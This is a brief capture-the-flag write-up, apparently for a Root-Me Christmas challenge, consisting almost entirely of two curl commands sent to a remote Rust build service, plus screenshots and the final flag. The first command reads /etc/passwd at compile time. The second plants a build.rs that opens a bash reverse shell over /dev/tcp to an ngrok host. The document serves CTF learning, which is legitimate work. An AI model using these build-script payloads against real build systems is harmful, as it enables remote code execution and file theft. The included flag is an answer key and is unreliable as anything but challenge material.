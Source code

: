# Challenge Build & Drustroy (day4)

<p align="center"><img src="Screenshots/S1.png" alt="Desc"></p>

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { let flag_content = include_str!(\"/etc/passwd\"); println!(\"// Flag content: {}\",flag_content); }"}' --output binary
````

````bash
curl -sSk -X POST -H 'Content-Type: application/json' https://day4.challenges.xmas.root-me.org/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs":"use std::process::Command; fn main() { let ip = \"0.tcp.eu.ngrok.io\"; let port = \"13457\"; let _ = Command::new(\"bash\").arg(\"-c\").arg(format!(\"exec 5<>/dev/tcp/{}/{}; cat <&5 | while read line; do $line 2>&5 >&5; done\", ip, port)).spawn().expect(\"Failed\"); println!(\"Reverse shell attempted to connect to {}:{}\", ip, port); }"}' --output binary
````

<p align="center"><img src="Screenshots/S2.png" alt="Desc"></p>


Flag : _OffenSkillSaysHi2024RustAbuse_ , thanks Laluka for tor this challenge !
